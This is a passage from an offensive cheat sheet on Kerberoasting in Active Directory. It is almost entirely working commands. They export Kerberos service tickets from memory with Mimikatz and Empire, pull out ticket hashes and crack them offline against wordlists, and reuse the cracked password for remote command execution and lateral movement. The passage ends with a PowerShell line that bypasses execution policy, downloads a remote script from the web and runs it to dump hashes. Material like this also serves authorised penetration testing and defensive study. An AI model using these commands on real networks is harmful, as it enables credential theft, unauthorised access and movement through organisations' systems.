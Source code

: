 
    ```

#### Step 3 - Export Service Tickets 

- List all available tickets from memory and save in remote host:
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
- PowerShell Empire:
    ```
    usemodule credentials/mimikatz/extract_tickets
    standard::base64
    kerberos::list /export
    ```
- Extract Ticket hashes for services that support Kerberos authentication:
    ```
    usemodule credentials/invoke_kerberoast
    ```
- AutoKerberoast will request and extract all the service tickets in base64 format.
    ```powershell
    Invoke-AutoKerberoast
    Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashForm
    ```
- Extract hashed in different formats (John, Hashcat and Kerberoast) - eliminates the need of Mimikatz for ticket export 
    ```powershell
    Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80" -Format John
    ```
- Extract TGT responses from PCAP:
    ```
    extracttgsrepfrompcap.py
    ```

#### Step 4 - Crack Service Tickets

- Crack ticket:
    ```
    python tgsrepcrack.py /root/Desktop/passwords.txt PENTESTLAB_001.kirbi
    ```
- Extract the Hash from Service Ticket
    ```
    python extractServiceTicketParts.py PENTESTLAB_001.kirbi
    ```
    ```
    tgscrack.exe -hashfile hash.txt -wordlist passwords.txt
    ```
- If PowerShell remoting is enabled then the password that has been retrieved from the service ticket can be used for execution of remote commands and for other lateral movement operations.
    ```powershell
    Enable-PSRemoting
    $pass = 'Password123' | ConvertTo-SecureString -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList 'PENTESTLAB_001', $pass
    Invoke-Command -ScriptBlock {get-process} -ComputerName WIN-PTELU2U07KG.PENTESTLAB.LOCAL -Credential $creds
    ```
- Dump returned service account with its correlating password hash:
    ```powershell
    powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1 Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"
